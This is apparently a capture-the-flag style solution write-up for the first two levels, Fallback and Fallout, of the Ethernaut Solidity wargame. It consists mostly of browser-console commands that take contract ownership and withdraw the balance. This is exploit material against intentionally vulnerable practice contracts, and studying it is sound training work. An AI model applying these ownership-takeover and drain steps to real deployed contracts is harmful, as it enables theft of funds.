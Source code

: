 # Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired on overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.

## 1.Fallback
~~~
> contract.contribute({value:toWei("0.0001", "ether")})

> web3.eth.sendTransaction({to:"0x3D585bb9145ca9101D5EdA79E138D854242FF90C", 
	value:toWei("0.0001", "ether"), from:"0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"})
	
> contract.owner()
< [[PromiseResult]]: "0x76F2CCD13DB4D70DFB2114704BD9d4d6326bafA0"

> contract.withdraw()

> getBalance("0x3D585bb9145ca9101D5EdA79E138D854242FF90C")
< [[PromiseResult]]: "0"
~~~

## 2.Fallout
```
> contract.owner()
< [[PromiseResult]]: "0x0000000000000000000000000000000000000000"

> contract.Fal1out()

> contract.owner()
< [[PromiseResult]]: "0xedd0cCc6FeE49D502E8BfA3C6033ce0201afaD83"
